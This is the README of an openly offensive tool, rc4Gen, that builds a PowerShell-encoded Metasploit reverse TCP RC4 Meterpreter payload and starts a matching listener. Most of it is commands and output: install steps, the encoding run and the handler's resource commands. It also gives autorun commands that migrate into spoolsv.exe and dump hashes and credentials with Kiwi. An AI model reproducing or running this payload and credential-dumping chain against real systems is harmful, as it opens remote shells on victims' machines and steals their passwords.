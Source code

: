 # rc4Gen
                __ __    ____                      
               /\ \\ \  /\  _`\                    
     _ __   ___\ \ \\ \ \ \ \L\_\     __    ___    
    /\`'__\/'___\ \ \\ \_\ \ \L_L   /'__`\/' _ `\  
    \ \ \//\ \__/\ \__ ,__\ \ \/, \/\  __//\ \/\ \ 
     \ \_\\ \____\\/_/\_\_/\ \____/\ \____\ \_\ \_\
      \/_/ \/____/   \/_/   \/___/  \/____/\/_/\/_/


    rc4Gen.py v1.10122016
    Description: Generates a MSF Reverse TCP RC4 payload encoded in Powershell to the clipboard.
    Automatically launches the corresponding MSF Multi/Handler.
    The Multi/Handler listener is weaponized to automatically migrate into the spoolsv.exe process, load Kiwi, run sysinfo, hashdump, creds_all and lsa_dump.
    rc4Gen.py supports both command-line parameters and a Wizard driven menu.
    Created by: Nick Sanzotta/@beamr
***
Installation:

    git clone https://github.com/NickSanzotta/rc4Gen.git
    cd rc4Gen
    python rc4Gen.py --help

***
Default Values:

    If a parameter is not defined it's default value will be choosen.
    Default values listed below.
    
    lport = '443'
    rc4Password = 'rc4M4g1c'
    verbose = 'off'
    listener = 'on'
    
***
Usage(CLI):
    
    Usage: python rc4Gen.py --lhost <OPTIONS>
    Example: python rc4Gen.py --lhost 10.0.0.1 --lport=445 --pass=Password123 --verbose=on --listener=off
    
     Tips:
     If LHOST is not defined the Wizard menu will be launched.


	 --lhost=<> This will define the local host used for the reverse_tcp_rc4 payload.

	 --lhost=<443> is default, this value will define the local port used for the reverse_tcp_rc4 payload.

	 --pass=<rc4M4g1c> is default, this value will define the RC4PASSWORD used for the reverse_tcp_rc4 payload.

	 --verbose=[OFF] is default, this will copy payload to Clipboard.

	 --verbose=[ON] is not default, this will print payload to STDOUT.

	 --listener[ON] is default, this will automatically launch the corresponding MSF Multi/Handler.

	 --listener[OFF] is not default, this will NOT launch MSF multi/handler.
     
     Misc:

	 --help <help>		Prints this help menu.


***
Usage(Wizard):

    External IP: 100.255.255.255
    Internal IP: 10.37.242.7

    You did not specifiy the LHOST, wizard menu has launched:

    Enter LHOST for payload[100.255.255.255]:10.37.242.7
    ENTERED: "10.37.242.7"

    Enter LPORT for payload[443]:
    ENTERED: "443"

    Enter RC4PASSWORD for payload[rc4M4g1c]:
    ENTERED: "rc4M4g1c"

    TIP: Verbosity [ON] will print payload to STDOUT.
    TIP: Verbosity [OFF] will copy payload to Clipboard.
    Verbosity[OFF]:
    ENTERED: "OFF"

    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 421 (iteration=0)
    x86/shikata_ga_nai chosen with final size 421
    Payload size: 421 bytes
    Saved as: rc4_payload.ps1

    Payload Copied to Clipboard:

    PAYLOAD: reverse_tcp_rc4
    LHOST: 10.37.242.7
    LPORT: 443
    RC4PASSWORD: rc4M4g1c
    TIP: Listener [ON] will automagically launch a MSF listener.
    listener[ON]:
    ENTERED: "ON"

    [*] Processing rc4_listener.rc for ERB directives.
    resource (rc4_listener.rc)> use multi/handler
    resource (rc4_listener.rc)> set PAYLOAD windows/meterpreter/reverse_tcp_rc4
    PAYLOAD => windows/meterpreter/reverse_tcp_rc4
    resource (rc4_listener.rc)> set LHOST 10.37.242.7
    LHOST => 10.37.242.7
    resource (rc4_listener.rc)> set LPORT 443
    LPORT => 443
    resource (rc4_listener.rc)> set Rc4PASSWORD rc4M4g1c
    Rc4PASSWORD => rc4M4g1c
    resource (rc4_listener.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (rc4_listener.rc)> set AutoRunScript multi_console_command -rcautorun_commands.rc
    AutoRunScript => multi_console_command -rcautorun_commands.rc
    resource (rc4_listener.rc)> exploit -j -z
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.37.242.7:443 
    [*] Starting the payload handler...
    msf exploit(handler) > exit
        ...
***
Autorun Script:
    
    The Multi/Handler listener is weaponized to automatically migrate into the                
    spoolsv.exe process, load Kiwi, run sysinfo, hashdump, creds_all and lsa_dump.
 
    A file called 'autorun_commands.rc' is created with the following commands:
    
    migrate -N spoolsv.exe
    load kiwi
    sysinfo
    hashdump
    creds_all
    lsa_dump
    

***
To Do:

    autorun script ON/off feature (add)
